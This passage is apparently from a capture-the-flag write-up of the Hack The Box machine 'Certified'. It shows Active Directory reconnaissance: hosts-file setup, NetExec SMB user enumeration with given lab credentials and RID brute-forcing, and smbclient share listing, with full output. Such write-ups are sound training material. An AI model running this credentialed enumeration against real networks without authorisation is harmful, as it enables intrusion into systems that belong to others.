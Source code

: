 To resolve the domain name into an IP address, we add it to `/etc/hosts`:

```jsx
──(kali㉿kali)-[~]
└─$ sudo cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.41 certified.htb
10.10.11.41 DC01.certified.htb
```
Now, we use NetExec for SMB username enumeration.  

```jsx
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.11.41 -u judith.mader -p  'judith09' --users --rid-brute
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                                                                                                                                          
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                  
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain                                                                                                                                                      
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                                                                    
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.10.11.41     445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.10.11.41     445    DC01             [*] Enumerated 9 local users: CERTIFIED

```

I tried to log in to `smbclient` to find some useful information but completely failed.  

```jsx
┌──(kali㉿kali)-[~]
└─$ smbclient -L  \\\\10.10.11.41\\ADMIN$ -U judith.mader
Password for [WORKGROUP\judith.mader]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
^[[Ado_connect: Connection to 10.10.11.41 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```